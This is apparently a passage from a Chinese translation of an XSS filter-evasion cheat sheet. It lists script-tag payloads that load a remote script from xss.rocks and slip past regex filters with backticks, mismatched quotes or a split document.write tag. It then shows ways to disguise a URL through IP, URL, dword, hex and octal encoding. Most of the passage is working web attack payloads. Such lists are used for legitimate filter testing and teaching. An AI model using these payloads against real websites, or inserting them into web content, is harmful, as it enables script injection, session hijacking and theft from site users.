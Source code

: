 <SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>

最后一个绕过此正则过滤" /script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'"\s]+))?)+\s|\s)src/i"的XSS，使用了重音符（在FireFox下无效）：

<SCRIPT a=`>` SRC="httx://xss.rocks/xss.js"></SCRIPT>

这是一个XSS样例，用来绕过那些不会检查引号配对，而是发现任何引号就立即结束参数字符串的正则表达式：

<SCRIPT a=">'>" SRC="httx://xss.rocks/xss.js"></SCRIPT>

这个XSS很让人担心，因为如果不过滤所有活动内容几乎不可能防止此攻击：

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>





### 2.84.    URL字符绕过

假定"<http://www.google.com/>"是不被允许的：

### **2.84.1. IP代替域名**


<A HREF="<http://66.102.7.147/>">XSS</A>




### 2.84.2. URL编码**


<A HREF="[http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D](http://www.google.com/)">XSS</A>




### **2.84.3. 双字节编码**

(注意：还有另一种双字节编码):


<A HREF="[http://1113982867/](http://66.102.7.147/)">XSS</A>




### **2.84.4. 十六进制编码**

每个数字的允许的范围大概是240位字符，就如你在第二位上看到的，并且由于十六进制是在0到F之间，所以开头的0可以省略:


<A HREF="[http://0x42.0x0000066.0x7.0x93/](http://66.102.7.147/)">XSS</A>




### **2.84.5. 八进制编码**

又一次允许填充，尽管你必须保证每类在4位字符以上-例如A类，B类等等:


<A HREF="[http://0102.0146.0007.00000223/](http://66.102.7.147/)">XSS</A>
